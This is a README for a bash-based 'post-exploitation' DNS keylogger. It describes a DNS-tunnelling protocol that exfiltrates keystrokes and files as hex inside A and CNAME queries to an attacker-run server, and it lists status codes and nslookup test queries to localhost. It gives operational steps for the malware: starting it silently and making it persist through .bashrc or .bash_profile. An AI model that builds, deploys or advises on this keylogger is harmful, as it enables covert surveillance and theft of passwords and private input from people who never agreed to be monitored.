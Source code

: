 # DNS Keylogger
This post-exploitation keylogger will automatically report a computer's keystrokes.

This takes advantage of DNS tunelling/exfiltration.

# Protocol
## Starting a Connection
A record requests starting with `a` indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.
It is in the format of `a.1.1.1.[sld].[tld].`

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## Exfiltrating Data
A record requests starting with `b` indicate exfiltrated data being sent to the server.
It is in the format of `b.[packet #].[id].[data].[sld].[tld].`

`id` is the id that was established on connection. Data is sent as ASCII data in hex.
## Malformed Record Requests
If the client sends an malformed record request, the server will respond with an ip address starting with `201`.
## Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with an IP address starting with `202`.
## Out of Order Packets
Occurs when client sends a packet with packet_id that doesn't match what is expected. The server responds with an IP address starting with `203`. Clients and servers should reset their packet numbers to 0. Then the client can resend the packet.
## Reached Max Connection
If the client attempts to create a connection when the max has reached, the server will respond with an IP address starting with `204`. Clients can keep trying, but until the server is reset, it won't be able to connect.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, resend the same payload.

# Server
## Listens on UDP port 53 for DNS packets
Looks for A record and CNAME record requests. Once an A record has been received, the rest of the data from the client should be CNAME record requests.

# Client
## Linux
The Linux keylogger is two bash scripts. `connection.sh` is used by the `logger.sh` script to send the keystrokes to the server. If you want to manually send data, such as a file, you can pipe data to the `connection.sh` script. It will automatically establish a connection and send the data. 

To start the keylogger, run the command `./logger.sh && exit`. This will silently start the keylogger, and any inputs typed will be sent. `logger.sh` and `connection.sh` must be in the same directory for the keylogger to work. If you want persistance, you can add the command to the .bashrc and/or .bash_profile to start on a new interactive shell or on login.

### Sending Test Requests
You can use `nslookup` to send requests to the server:

`nslookup -query=A a.1.1.1.example.com 127.0.0.1` sends a connection request to localhost.

`nslookup -query=A b.1.1.54686520717569636B2062726F776E20666F782E1B.example.com 127.0.0.1` to send a test message to localhost.

The `sld` can be anything if you're testing on localhost, but you need to put something there.

# Side Notes
## Log file
The log file containing user inputs contains ASCII control characters, such as backspace, delete, and carriage return. If you print the contents using something like `cat`, you may not see all of the data.